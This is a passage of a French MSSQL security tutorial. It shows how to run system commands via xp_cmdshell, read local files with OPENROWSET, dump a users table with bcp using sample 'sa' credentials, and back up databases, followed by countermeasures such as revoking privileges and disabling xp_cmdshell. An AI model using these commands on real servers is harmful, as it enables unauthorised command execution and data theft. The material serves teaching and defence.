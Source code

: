     ```sql
    EXEC xp_cmdshell 'dir C:\';
    ```

***

**3.4 Lire des Fichiers Locaux**

Utilisez `OPENROWSET` pour lire un fichier local si les permissions le permettent :

```sql
SELECT * FROM OPENROWSET(BULK N'C:\path\to\file.txt', SINGLE_CLOB) AS FileContents;
```

***

### **🔧 Étape 4 : Exporter et Sauvegarder les Données**

**4.1 Exporter une Table avec `BCP`**

Si vous avez accès au serveur MSSQL, utilisez l’outil `bcp` pour exporter des données :

```bash
bcp <database_name>.dbo.<table_name> out data.txt -c -U <username> -P <password> -S <host>
```

**Exemple :**

```bash
bcp ecommerce.dbo.users out users.txt -c -U sa -P Password123 -S 192.168.1.10
```

***

**4.2 Sauvegarder une Base**

Créez une sauvegarde de la base si vous avez les permissions :

```sql
BACKUP DATABASE <database_name> TO DISK = 'C:\path\to\backup.bak';
```

***

### **🔒 Étape 5 : Contre-Mesures et Sécurisation**

**5.1 Restreindre les Privilèges**

Révoquez les permissions inutiles pour les utilisateurs :

```sql
REVOKE ALL ON <database_name> FROM '<username>';
```

***

**5.2 Désactiver `xp_cmdshell`**

Désactivez `xp_cmdshell` pour éviter les exécutions de commandes système :

```sql
EXEC sp_configure 'xp_cmdshell', 0;
RECONFIGURE;
```
